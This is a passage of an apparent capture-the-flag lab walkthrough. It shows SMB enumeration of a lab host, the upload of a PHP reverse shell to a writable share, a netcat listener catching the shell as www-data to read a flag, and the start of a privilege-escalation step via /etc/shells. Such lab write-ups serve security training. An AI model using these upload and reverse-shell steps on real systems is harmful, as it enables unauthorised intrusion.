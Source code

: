 ```bash
enum4linux -a target2.ine.local

──(root㉿INE)-[~]
└─# smbclient //target2.ine.local/site-uploads                                                                                                                                           
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Nov 19 13:25:31 2024
  ..                                  D        0  Tue Nov 19 13:25:31 2024

                1981311780 blocks of size 1024. 86551592 blocks available
smb: \> put php-reverse-shell.php 
putting file php-reverse-shell.php as \php-reverse-shell.php (1788.4 kb/s) (average 1788.4 kb/s)

```

Here we got the connection back and found the flag3! 

```bash
┌──(root㉿INE)-[~]
└─# nc -nlvp 1234                                                                                                                                                                        
listening on [any] 1234 ...                                                                                                                                                              
connect to [192.245.33.2] from (UNKNOWN) [192.245.33.4] 56918                                                                                                                            
Linux target2.ine.local 6.8.0-40-generic #40-Ubuntu SMP PREEMPT_DYNAMIC Fri Jul  5 10:34:03 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux                                                      
 16:21:08 up 295 days, 11:03,  0 users,  load average: 0.98, 0.57, 0.45
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat flag3.txt
FLAG3{cf56725a4e0043d1a3a02a7f8********}
$ 
```

---

### Flag4:

Can you escalate to root on target2.ine.local and read the flag from the restricted /root directory?

Every Linux system stores the list of valid login shells in the `/etc/shells` file. These shells can sometimes be exploited if misconfigured.

```bash
cat /etc/shells
This command will display something like:
```

```
/bin/sh
/bin/bash
/bin/rbash
/bin/dash
/usr/bin/zsh

```

